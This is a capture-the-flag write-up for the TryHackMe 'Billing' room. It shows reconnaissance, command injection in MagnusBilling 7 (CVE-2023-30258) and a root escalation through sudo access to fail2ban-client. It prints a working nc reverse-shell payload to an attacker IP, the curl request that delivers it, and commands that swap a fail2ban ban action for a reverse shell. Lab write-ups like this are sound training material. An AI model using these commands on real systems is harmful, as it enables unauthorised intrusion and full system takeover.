Billing
In this write-up, we exploit a known vulnerability in MagnusBilling to gain initial access via command injection.
Then, we delve deep into a fascinating privilege escalation vector involving the manipulation of
fail2ban-client to force the root process to execute our malicious code.
Link to the room: https://tryhackme.com/room/billing
1. Reconnaissance
We start with a standard Nmap scan to enumerate open ports.
$ sudo nmap -T4 10.80.176.111
The initial scan shows ports 22 (SSH), 80 (HTTP), and 3306 (MySQL). Visiting port 80 reveals a login page, but we have no credentials.

I ran a more thorough scan on all ports to ensure I didn't miss anything.
$ sudo nmap -T4 -p- 10.80.176.111
$ sudo nmap -T4 -p5038 -sV 10.80.176.111
We found port 5038 running Asterisk Call Manager. This suggests the server is likely a VoIP system.
2. Software Fingerprinting
Using the directory names found by Gobuster and the context of "Asterisk", I searched for VoIP billing software. I compared the directory structure on the web server with open-source projects on GitHub.
I found a match: MagnusBilling 7. The README on GitHub matched the technology stack (Yii Framework, ExtJS).

3. Exploitation (CVE-2023-30258)
Searching for vulnerabilities for MagnusBilling 7, I found CVE-2023-30258.
This is an unauthenticated Command Injection vulnerability in the icepay.php file.

The exploit works by injecting commands into the democ parameter. I prepared a reverse shell payload:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.145.228 4444 >/tmp/f
I URL-encoded this payload and sent it via curl to the vulnerable endpoint:
curl -s 'http://10.80.176.111/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=...[payload]...'
It worked! I caught the shell as the user asterisk. I stabilized the shell using Python.

4. User Flag
I checked the /home directory and found a user named magnus.
Luckily, the permissions on his home directory allowed me to read the user.txt flag.

User Flag: THM[REDACTED]
5. Privilege Escalation (Fail2Ban)
Now for the most interesting part. I checked sudo permissions for the asterisk user.
$ sudo -l
We can run /usr/bin/fail2ban-client as root without a password.
This is extremely dangerous. Let me explain why.
How Fail2Ban Works (Client-Server Architecture)
Fail2Ban consists of two parts:
- fail2ban-server: The main daemon that runs as root. It monitors logs and bans IPs by updating firewall rules (iptables).
- fail2ban-client: A utility used to send commands to the server (e.g., "ban this IP", "change configuration").
The Attack Plan
Fail2Ban uses "actions" to define what to do when an IP gets banned (e.g., "run iptables"). We can overwrite this action to run "reverse shell" instead!
Step 1: Check Status
I listed the running jails to find an active one.
$ sudo /usr/bin/fail2ban-client status
I chose the jail asterisk-manager.
Step 2: Poison the Action
I told the Fail2Ban server to change the "actionban" for this jail. Instead of blocking a port, I want it to execute a Python reverse shell connecting to my new listener on port 4445.
RCE_CMD="python3 -c 'import socket,os,pty;s=socket.socket...[reverse shell]...'"
sudo /usr/bin/fail2ban-client set asterisk-manager action iptables-allports-AST_MANAGER actionban "$RCE_CMD"
Step 3: Trigger the Ban
Now the trap is set. I just need to "ban" an IP address to trigger the action. Since I control the client, I can manually tell the server to ban a fake IP (1.2.3.4).
$ sudo /usr/bin/fail2ban-client set asterisk-manager banip 1.2.3.4The server received the command "ban 1.2.3.4". It looked up its configuration, saw that "actionban" is now my Python code, and executed it as ROOT.

I received a root shell on my listener and successfully read the final flag!
Root Flag: THM[REDACTED]